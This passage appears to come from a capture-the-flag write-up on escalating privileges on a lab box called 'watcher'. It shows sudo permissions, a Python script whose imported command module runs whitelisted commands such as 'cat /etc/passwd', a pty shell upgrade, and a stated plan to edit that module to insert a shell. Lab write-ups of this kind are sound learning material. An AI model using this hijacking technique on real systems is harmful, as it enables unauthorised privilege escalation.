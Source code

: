 Why do they tell us what to do EXACTLY XD

```
mat@watcher:~/scripts$ sudo -l
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```


```
mat@watcher:~/scripts$ cat cmd.py
cat cmd.py
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
mat@watcher:~/scripts$ cat will_script.py
cat will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

Scripts are pretty straight forward. We can't change all the return statements. 

Clearly, we need to have a bash command/another rev shell command somewhere before. This requires editing stuff.

```
mat@watcher:~/scripts$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
mat@watcher:~/scripts$ nano cmd.py
nano cmd.py
Error opening terminal: unknown.
```

